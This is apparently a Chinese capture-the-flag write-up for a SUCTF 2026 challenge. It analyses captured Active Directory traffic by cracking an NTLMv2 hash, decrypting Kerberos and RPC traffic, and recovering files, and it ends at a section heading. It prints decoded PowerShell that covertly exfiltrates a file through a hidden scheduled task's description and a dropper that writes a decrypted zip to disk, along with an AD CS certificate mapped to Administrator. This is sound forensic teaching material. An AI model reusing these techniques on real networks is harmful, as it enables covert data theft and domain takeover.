




特别鸣谢 @0raN9e 代笔本篇题解。

题目流量可从 [SUCTF 2026 题目附件](https://github.com/team-su/SUCTF-2026/tree/main/misc/SU_LightNovel/attachments)获取。下文命令使用文件名 `suctf-ad.pcapng`；下载后的 `suctf-ad-final-fix.pcapng` 可复制或重命名为该名称。

这次预计是域流量最后一舞了吧，恍如隔世：多年以后，面对 SUCTF 的出题，我都回想起那个在 WMCTF 域流量题目前一筹莫展的遥远夜晚

## NTLMv2 认证与口令恢复

流量中包含域认证，先从 NTLM 入手。

提取 NTLM 认证 Type-3（Authenticate）阶段的关键身份信息和响应数据

```bash
tshark -n -r *.pcapng -Y "ntlmssp.messagetype == 0x00000003" -T fields -e ntlmssp.auth.username -e ntlmssp.auth.domain -e ntlmssp.ntlmv2_response.ntproofstr -e ntlmssp.auth.sesskey -e smb2.sesid
kanna.seto      wire.com        c4ec074163bee82d9f829d1aa22de185        f38381332f94da4e87798fa3298486e0
```

提取 NTLM 认证流程中的Server Challenge

```bash
tshark -n -r *.pcapng -Y "ntlmssp.messagetype == 0x00000002" -T fields -e ntlmssp.ntlmserverchallenge
e9b597a6e03a5122
```

提取 NTLMv2 认证响应（NTLMv2 Response）

```bash
tshark -r *.pcapng -Y "ntlmssp.messagetype==3" -T fields -e ntlmssp.ntlmv2_response

c4ec074163bee82d9f829d1aa22de1850101000000000000402a64de67addc01393769656779706e000000000200080057004900520045000100080044004300300031000400100077006900720065002e0063006f006d0003001a0044004300300031002e0077006900720065002e0063006f006d000500100077006900720065002e0063006f006d0007000800402a64de67addc010900120063006900660073002f0044004300300031000000000000000000
```

所以hash为

```
kanna.seto::wire.com:e9b597a6e03a5122:c4ec074163bee82d9f829d1aa22de185:0101000000000000402a64de67addc01393769656779706e000000000200080057004900520045000100080044004300300031000400100077006900720065002e0063006f006d0003001a0044004300300031002e0077006900720065002e0063006f006d000500100077006900720065002e0063006f006d0007000800402a64de67addc010900120063006900660073002f0044004300300031000000000000000000
```

rockyou爆破

```bash
john  hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 32 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
taylorswift<3    (kanna.seto)
```

`taylorswift<3`作为 NTLMSSP 的 Password带入进行后续分析

## 解密计划任务并提取 hint.zip

在 frame 42 和 759 中可以找到解密后的内容。下方 XML 中较长的编码字段已省略，完整数据可通过后面的命令从流量中提取。

```bash
tshark -o "ntlmssp.nt_password:taylorswift<3" -r suctf-ad.pcapng -Y "frame.number==42" -T fields -e frame.number -e dcerpc.decrypted_stub_data | xxd -r -p
BL

\gsmIqwfB\.\.<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.3" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Description>+pOthJDent+ThjxjPLTKKrOBmqSOYxlHbVv3OPfptLM=</Description>
  </RegistrationInfo>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>2015-07-15T20:35:13.2757294</StartBoundary>
      <Enabled>true</Enabled>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>PT1M</ExecutionTimeLimit>
    <Priority>7</Priority>
  </Settings>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>powershell.exe</Command>
      <Arguments>-NonInteractive -enc [编码载荷，解码结果见下文]</Arguments>
    </Exec>
  </Actions>
</Task>
```

得到

```ps1
$target_file = "C:\hint.zip"
$encryptionKey = [System.Convert]::FromBase64String("7mLnyC9VW9IZ8opOl7ouNQ==")
function ConvertTo-Base64($byteArray) {
    [System.Convert]::ToBase64String($byteArray)
}

function ConvertFrom-Base64($base64String) {
    [System.Convert]::FromBase64String($base64String)
}

function Encrypt-Data($key, $data) {
    $aesManaged = New-Object System.Security.Cryptography.AesManaged
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.Key = $key
    $aesManaged.GenerateIV()
    $encryptor = $aesManaged.CreateEncryptor()
    $utf8Bytes = [System.Text.Encoding]::UTF8.GetBytes($data)
    $encryptedData = $encryptor.TransformFinalBlock($utf8Bytes, 0, $utf8Bytes.Length)
    $combinedData = $aesManaged.IV + $encryptedData
    return ConvertTo-Base64 $combinedData
}

function Decrypt-Data($key, $encryptedData) {
    $aesManaged = New-Object System.Security.Cryptography.AesManaged
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $combinedData = ConvertFrom-Base64 $encryptedData
    $aesManaged.IV = $combinedData[0..15]
    $aesManaged.Key = $key
    $decryptor = $aesManaged.CreateDecryptor()
    $encryptedDataBytes = $combinedData[16..$combinedData.Length]
    $decryptedDataBytes = $decryptor.TransformFinalBlock($encryptedDataBytes, 0, $encryptedDataBytes.Length)
    return [System.Text.Encoding]::UTF8.GetString($decryptedDataBytes)
}
function DownloadByPs($taskname){
    $task = Get-ScheduledTask -TaskName $taskname -TaskPath \;
    # Check if file exists
    if (Test-Path -Path $target_file) {
        try {
            # Read file content and encrypt it, then save it to task description
            # Check if file is larger than 1MB
            $fileInfo = Get-Item $target_file
            if ($fileInfo.Length -gt 1048576) {
                $result = "[-] File is too large."
            }else{
                $result = Get-Content -Path $target_file -Encoding Byte
            }
        } catch {
            $result = $_.Exception.Message
        }
    }else{
        $result = "[-] File not exists."
    }
    $b64result = ConvertTo-Base64 $result
    $task.Description = $b64result
    Set-ScheduledTask $task
}
function DownloadByCom($taskname){
    $taskPath = "\"
    $scheduler = New-Object -ComObject Schedule.Service
    $scheduler.Connect()
    try {
        $folder = $scheduler.GetFolder($taskPath)
        $result = ""
        $task = $folder.GetTask($taskname)
        $definition = $task.Definition
        # Check if file exists
        if (Test-Path -Path $target_file) {
            try {
                # Read file content and encrypt it, then save it to task description
                # Check if file is larger than 1MB
                $fileInfo = Get-Item $target_file
                if ($fileInfo.Length -gt 1048576) {
                    $result = "[-] File is too large."
                }else{
                    $result = Get-Content -Path $target_file -Encoding Byte
                }
            } catch {
                $result = $_.Exception.Message
            }
        }else{
            $result = "[-] File not exists."
        }
        $b64result = ConvertTo-Base64 $result
        $definition.RegistrationInfo.Description = $b64result
        $user = $task.Principal.UserId
        $folder.RegisterTaskDefinition($task.Name, $definition, 6, $user, $null, $task.Definition.Principal.LogonType)
    }catch {
        Write-Error "Failed.."
    }
    finally {
        [System.Runtime.InteropServices.Marshal]::ReleaseComObject($scheduler) | Out-Null
    }
}
$taskname = "gsmIqwfB"
try {
    DownloadByPs($taskname)
}catch{
    DownloadByCom($taskname)
}
[Environment]::Exit(0)
```

这是一段恶意 PowerShell 脚本，它会读取目标机器上的 `C:\hint.zip` 文件，将其内容转成 Base64 编码后，悄悄藏进一个名为 `gsmIqwfB` 的 Windows 计划任务的"描述"字段里，以此实现隐蔽的数据窃取，全程只使用系统自带功能，不易被检测。

```
tshark -o "ntlmssp.nt_password:taylorswift<3" -r suctf-ad.pcapng -Y "frame.number==759" -T fields -e dcerpc.decrypted_stub_data | tr -d '\n' | xxd -r -p | strings -el
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.3" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Description>[Base64 数据较长，见下方提取命令]</Description>
    <URI>\gsmIqwfB</URI>
  </RegistrationInfo>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <ExecutionTimeLimit>PT1M</ExecutionTimeLimit>
    <Hidden>true</Hidden>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <IdleSettings>
      <Duration>PT10M</Duration>
      <WaitTimeout>PT1H</WaitTimeout>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <UseUnifiedSchedulingEngine>true</UseUnifiedSchedulingEngine>
  </Settings>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>2015-07-15T20:35:13</StartBoundary>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>powershell.exe</Command>
      <Arguments>-NonInteractive -enc [编码载荷，解码结果见下文]</Arguments>
    </Exec>
  </Actions>
</Task>
```

或者

```bash
tshark -o "ntlmssp.nt_password:taylorswift<3" -r suctf-ad.pcapng -Y "frame.number==759" -T fields -e dcerpc.decrypted_stub_data | tr -d '\n' | xxd -r -p | strings -el | grep -oP '(?<=<Description>).*?(?=</Description>)' > hint_zip.b64
base64 -d hint_zip.b64 >hint.zip
unzip -P 'taylorswift<3' hint.zip
```

这里是直接猜测password重复利用的

给到的

```
404 Flag Not Found, but kanno.seto is literally peak cuteness!!!!
```


进行了常见的图片隐写分析未获得有用信息(吐舌好看捏)继续分析

## 制作 keytab 并分析 Kerberos 流量

后续还有 Kerberos 流量，需要先制作 keytab。

[TheRealAdamBurford/Create-KeyTab: Create KeyTab PowerShell Script](https://github.com/TheRealAdamBurford/Create-KeyTab)

frame 783 as-rep里面 ticket -> enc-part -> kvno: 2 推测





翻流量定位到frame2644

```bash
tshark -o kerberos.decrypt:TRUE -o kerberos.file:login.keytab -r suctf-ad.pcapng -Y "frame.number==2644" -T fields -e dcerpc.decrypted_stub_data
```

获得

```ps1
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.3" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Description>+iDalTJ7HJVQu45POcrdueHV8FKs8loQ7UGAmyLo1GQ=</Description>
    <URI>\JlWveTli</URI>
  </RegistrationInfo>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <ExecutionTimeLimit>PT1M</ExecutionTimeLimit>
    <Hidden>true</Hidden>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <UseUnifiedSchedulingEngine>true</UseUnifiedSchedulingEngine>
  </Settings>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>2015-07-15T20:35:13</StartBoundary>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>powershell.exe</Command>
      <Arguments>-NonInteractive -enc [编码载荷，解码结果见下文]</Arguments>
    </Exec>
  </Actions>
</Task>
```

再解获得

```ps1
$target_path = "C:\cert.zip"
$taskPath = "\"
$encryptionKey = [System.Convert]::FromBase64String("PYake61OOYCKw0zg+oT/Qg==")
function ConvertTo-Base64($byteArray) {
    [System.Convert]::ToBase64String($byteArray)
}

function ConvertFrom-Base64($base64String) {
    [System.Convert]::FromBase64String($base64String)
}

function Encrypt-Data($key, $data) {
    $aesManaged = New-Object System.Security.Cryptography.AesManaged
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.Key = $key
    $aesManaged.GenerateIV()
    $encryptor = $aesManaged.CreateEncryptor()
    $utf8Bytes = [System.Text.Encoding]::UTF8.GetBytes($data)
    $encryptedData = $encryptor.TransformFinalBlock($utf8Bytes, 0, $utf8Bytes.Length)
    $combinedData = $aesManaged.IV + $encryptedData
    return ConvertTo-Base64 $combinedData
}

function Decrypt-Data($key, $encryptedData) {
    $aesManaged = New-Object System.Security.Cryptography.AesManaged
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $combinedData = ConvertFrom-Base64 $encryptedData
    $aesManaged.IV = $combinedData[0..15]
    $aesManaged.Key = $key
    $decryptor = $aesManaged.CreateDecryptor()
    $encryptedDataBytes = $combinedData[16..$combinedData.Length]
    $decryptedDataBytes = $decryptor.TransformFinalBlock($encryptedDataBytes, 0, $encryptedDataBytes.Length)
    return [System.Text.Encoding]::UTF8.GetString($decryptedDataBytes)
}
$scheduler = New-Object -ComObject Schedule.Service
$scheduler.Connect()
try {
    $result = ""
    $folder = $scheduler.GetFolder($taskPath)
    $task = $folder.GetTask("JlWveTli")
    $definition = $task.Definition
    if (Test-Path -Path $target_path) {
        $result = "[-] File already exists."
    }else{
        try {
            $description = $definition.RegistrationInfo.Description
            $decryptedDescription = Decrypt-Data $encryptionKey $description
            # base64 decode get raw data and save it to file
            $decodeData = ConvertFrom-Base64 $decryptedDescription
            # if target path not exists, create it
            $dir = Split-Path $target_path
            if (!(Test-Path -Path $dir)) {
                New-Item -ItemType Directory -Path $dir
            }
            $decodeData | Set-Content -Path "C:\cert.zip" -Encoding Byte
            $result = "[+] Success."
        }
        catch {
            $result = $_.Exception.Message
        }
    }
    $encryptedResult = Encrypt-Data $encryptionKey $result

    $definition.RegistrationInfo.Description = $encryptedResult
    $user = $task.Principal.UserId
    $folder.RegisterTaskDefinition($task.Name, $definition, 6, $user, $null, $task.Definition.Principal.LogonType)
}catch {
    Write-Error "Failed.."
}
finally {
    [System.Runtime.InteropServices.Marshal]::ReleaseComObject($scheduler) | Out-Null
}
[Environment]::Exit(0)
```

解密并释放文件（`cert.zip`）到磁盘

处理顺序是：

1. 外层 Base64 解码

2. 前 16 字节取 IV

3. 用 `PYake61OOYCKw0zg+oT/Qg==` 做 AES-CBC 解密

4. 解出来还是一段 Base64

5. 再 Base64 解码得到原始 zip

然后继续分析

```bash
tshark -r suctf-ad.pcapng -Y "tcp.port==49667" -T fields -e frame.number -e ip.src -e tcp.srcport -e ip.dst -e tcp.dstport -e tcp.stream -e _ws.col.Info
```

这部分流量包含早期 NTLM 会话，以及：

kanna.seto 的 Kerberos 会话

一条是 administrator 的 Kerberos 会话

```bash
tshark -r suctf-ad.pcapng -Y "frame.number>=860 && frame.number<=2650" -T fields -e frame.number -e tcp.stream -e _ws.col.Info
```

frame 869 是 host/dc01.wire.com 的 TGS-REP

frame 874/876 是接着这次票据建立 RPC 绑定

后面 881~2644 都落在同一条 TCP 会话里这条会话的编号就是 tcp.stream==5

可以

```bash
tshark -o kerberos.decrypt:TRUE -o kerberos.file:login.keytab -r suctf-ad.pcapng -Y "tcp.stream==5" -V > frame5.txt
```

导出

这部分非常的复杂，经过大模型询问后在frame 876

```bash
 tshark -o kerberos.decrypt:TRUE -o kerberos.file:login.keytab -r suctf-ad.pcapng -Y "frame.number==876" -V
```

```
keytype: eTYPE-AES256-CTS-HMAC-SHA1-96 (18)
                                                keyvalue:6c729591c51fd38f4c462d74566eeb4a40a4511a9c85bc81232e737a98d8d1f2
```

subkey供 Kerberos/GSSAPI/SPNEGO 后续安全上下文继续派生签名/加密密钥，用来解 stream 5 的 RegisterTask

```
tshark -o kerberos.decrypt:TRUE -o kerberos.file:login.keytab -r suctf-ad.pcapng -Y "tcp.stream==5" -V > frame5.txt
```

确认真正的大请求范围，就是注册任务时塞进去的隐藏载荷 从 881到 2572

因为 frame 1025 里有 **两个** DCE/RPC fragment。如果你漏掉其中一个，最后就会差 4152 字节，Description 还能看起来像合法 Base64，但 AES 永远解不开

```python
import subprocess, re
from pathlib import Path
from minikerberos.protocol.encryption import Key, Enctype, _AES256CTS
from minikerberos.gssapi.gssapi import GSSWrapToken, GSSAPI_AES, KG_USAGE

pcap='suctf-ad.pcapng'
subkey_hex='6c729591c51fd38f4c462d74566eeb4a40a4511a9c85bc81232e737a98d8d1f2'

key=Key(Enctype.AES256, bytes.fromhex(subkey_hex))
gss=GSSAPI_AES(key, _AES256CTS, None)

out = subprocess.check_output([
    'tshark','-r',pcap,
    '-Y','tcp.stream==5 && ip.src==192.168.183.132 && tcp.len>0 && frame.number>=881 && frame.number<=2572',
    '-T','fields','-e','frame.number','-e','tcp.seq','-e','tcp.payload'
], text=True, encoding='utf-8')

segments=[]
for line in out.strip().splitlines():
    parts=line.split('\t')
    if len(parts) < 3 or not parts[2]:
        continue
    seq=int(parts[1])
    data=bytes.fromhex(parts[2].replace(':',''))
    segments.append((seq, data))
segments.sort()

base_seq=segments[0][0]
stream=bytearray()
for seq, data in segments:
    off=seq-base_seq
    end=off+len(data)
    if end <= len(stream):
        continue
    if off < len(stream):
        data = data[len(stream)-off:]
        off = len(stream)
    stream.extend(data)

s=bytes(stream)
start=s.find(bytes.fromhex('05000001100000009c10440002000000'))

parts=[]
pos=start
while pos + 24 <= len(s):
    frag_len=int.from_bytes(s[pos+8:pos+10],'little')
    auth_len=int.from_bytes(s[pos+10:pos+12],'little')
    call_id=int.from_bytes(s[pos+12:pos+16],'little')
    flags=s[pos+3]
    if call_id != 2:
        break
    frag=s[pos:pos+frag_len]
    stub_len=frag_len - 24 - 8 - auth_len
    enc_stub=frag[24:24+stub_len]
    auth=frag[24+stub_len+8:24+stub_len+8+auth_len]

    t=GSSWrapToken.from_bytes(auth)
    rotated = auth[16:] + enc_stub
    cipher_text = gss.unrotate(rotated, t.RRC + t.EC)
    plain = _AES256CTS().decrypt(key, KG_USAGE.INITIATOR_SEAL.value, cipher_text)
    plain = plain[:-(t.EC + 16)]
    parts.append(plain)

    pos += frag_len
    if flags & 0x02:
        break

full=b''.join(parts)
start_xml = full.find(b'<\x00T\x00a\x00s\x00k\x00')
xml_txt = full[start_xml:].decode('utf-16le', errors='ignore')
end_xml = xml_txt.find('</Task>')
xml_txt = xml_txt[:end_xml+7]

desc = re.search(r'<Description>(.*?)</Description>', xml_txt, re.S).group(1)
Path('stream5_desc_fixed.txt').write_text(desc, encoding='ascii')
print('wrote stream5_desc_fixed.txt', len(desc))
```

```python
from pathlib import Path
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

desc = Path("stream5_desc_fixed.txt").read_text(encoding="ascii").strip()
key = base64.b64decode("PYake61OOYCKw0zg+oT/Qg==")

blob = base64.b64decode(desc)
iv, ct = blob[:16], blob[16:]
pt = unpad(AES.new(key, AES.MODE_CBC, iv).decrypt(ct), 16)
raw = base64.b64decode(pt)

Path("recovered_cert.zip").write_bytes(raw)
print("wrote recovered_cert.zip", len(raw), raw[:4])
```

## 解开 cert.zip

恢复 `cert.zip` 后，可以从压缩包中已有的文件寻找密码线索。

```
潮声只听开口处
The sea listens where the lines begin
```


```bash
stegseek cert.jpg
cat  cert.jpg.out
濑水晚霞映海天，户外潮声入远烟。
环佩清姿临碧浪，奈何人间少此颜。
倾心落日添柔影，城畔微风动鬓边。
绝代芳华如画里，色映云霞胜月妍。
```

不难猜出密码是

```
濑户环奈倾城绝色
```

```bash
unzip -P '濑户环奈倾城绝色' cert.zip -d cert
```

```
key:01ea8c39173e5e4afbb5a6580b118e4cc21b16d399b8e2322b9090e68acd080a
```

```bash
klist -c wiredc.ccache
Ticket cache: FILE:wiredc.ccache
Default principal: Administrator@WIRE.COM

Valid starting       Expires              Service principal
03/06/2026 20:52:11  03/07/2026 06:52:11  krbtgt/WIRE.COM@WIRE.COM
```

```bash
openssl pkcs12 -in administrator.pfx -info
Enter Import Password:
MAC: sha256, Iteration 2048
MAC length: 32, salt length: 8
PKCS7 Data
Certificate bag
Bag Attributes
    friendlyName:
    localKeyID: AB AD F4 6E 1D 76 C3 07 FA 3B 16 55 0F FA 67 0B E9 08 21 AB
subject=CN=Kanna.seto
issuer=DC=com, DC=wire, CN=wire-DC01-CA
-----BEGIN CERTIFICATE-----
MIIF/jCCBOagAwIBAgITVQAAAA5ckH5gQsKBxgAAAAAADjANBgkqhkiG9w0BAQsF
ADBCMRMwEQYKCZImiZPyLGQBGRYDY29tMRQwEgYKCZImiZPyLGQBGRYEd2lyZTEV
MBMGA1UEAxMMd2lyZS1EQzAxLUNBMB4XDTI2MDMwNjExMTM1MloXDTI3MDMwNjEx
MTM1MlowFTETMBEGA1UEAxMKS2FubmEuc2V0bzCCASIwDQYJKoZIhvcNAQEBBQAD
ggEPADCCAQoCggEBALc7tkxrcHchvPklua448YPf8fE4tn8kbo7/7DYTvzjdCPbX
t3f3aLCKHfWUUwgAxfQ5/8pICpUNl9arQ71XaILf+nFjTN8M46D+FYonFtu6hqNt
KxM24wnhTPQKJg8cmzVds1TSaOnFFjP7CYJSyq9yrxp+BZ7q17C0+BNZ5/tiPmCp
F+qvDSVl/nSZS0D9IizXduq1azPFcJcK+Qez/eWeJImHhfvgztRYtuJpLRh4hOUQ
s0Q52F+tMElzXl+Xg3wT5dB4RlSX29iV4o9LE5+13GsEeyuswGVDMYjKJ1Ra/i9+
2/lHY5p7oeRBV50ClVPfP76gV3uHEHxD/eLxLvkCAwEAAaOCAxgwggMUME4GCSsG
AQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1TLTEtNS0yMS0xMDIxNjAxMDQ0
LTE3NjQ2MDgxODItMTc4MDM5NDAyNC01MDAwgYEGA1UdEQR6MHigJgYKKwYBBAGC
NxQCA6AYDBZhZG1pbmlzdHJhdG9yQHdpcmUuY29thk50YWc6bWljcm9zb2Z0LmNv
bSwyMDIyLTA5LTE0OnNpZDpTLTEtNS0yMS0xMDIxNjAxMDQ0LTE3NjQ2MDgxODIt
MTc4MDM5NDAyNC01MDAwHQYDVR0OBBYEFO5unxICHKd7tOtsB8njErd2T2jUMB8G
A1UdIwQYMBaAFCugV8qRtbNmCM41d5i1j2NZZ2W5MIHEBgNVHR8Egbwwgbkwgbag
gbOggbCGga1sZGFwOi8vL0NOPXdpcmUtREMwMS1DQSxDTj1EQzAxLENOPUNEUCxD
Tj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1
cmF0aW9uLERDPXdpcmUsREM9Y29tP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/
YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBuwYIKwYBBQUH
AQEEga4wgaswgagGCCsGAQUFBzAChoGbbGRhcDovLy9DTj13aXJlLURDMDEtQ0Es
Q049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
PUNvbmZpZ3VyYXRpb24sREM9d2lyZSxEQz1jb20/Y0FDZXJ0aWZpY2F0ZT9iYXNl
P29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwDgYDVR0PAQH/BAQD
AgeAMDcGCSsGAQQBgjcVBwQqMCgGICsGAQQBgjcVCIHYsmaGrdwlh6WTP4TchFyD
/JFGUQEhAgFuAgEAMBMGA1UdJQQMMAoGCCsGAQUFBwMCMBsGCSsGAQQBgjcVCgQO
MAwwCgYIKwYBBQUHAwIwDQYJKoZIhvcNAQELBQADggEBAAedrdpHC9kbfTOLw2uZ
WrV7a8IHf7Gjm36vAFfEQvGZw0lSQCjV/2M48kFejOFPlZyo7LgEZdXAMesTGiFJ
imPguCoqPjHWT+dKxo3NKuS+aFfMezQ7oswfDJEUWXTvFjkXClOERyoah2lExrSC
qiMFjOVFvnAMUjf6XqkGxQSeQ5enzo6cJhWumQGlg76xEa4J8iQF3cRie1ztpgZP
xwq9mstBwtyiP/JzOEO/F4kYLKTfVJNi8TdsmGojIGvceeyJ4Tp8AJV/t3b2OiYu
Cw9vIYKWArvo8uCboOOEiCXpcFhPJPYoAIbTKWdTvt183Jp0eguq1w2lHg0ktVJs
jyo=
-----END CERTIFICATE-----
```

空密码pfx直接回车，提取出的信息

```
serial    = 550000000E5C907E6042C281C600000000000E
subject   = CN = Kanna.seto
issuer    = DC = com, DC = wire, CN = wire-DC01-CA
notBefore = Mar  6 11:13:52 2026 GMT
notAfter  = Mar  6 11:13:52 2027 GMT
```

这里已经出现了第一个非常典型、也很容易忽略的 AD CS 知识点：

- 证书 `Subject CN` 虽然是 `Kanna.seto`
- 但它的 `SAN UPN` 是 `administrator@wire.com`
- 同时还带了 SID URI

因此它会被映射到 `Administrator`，而不是映射到 `kanna.seto`。

## 分析管理员 PKINIT 与 U2U

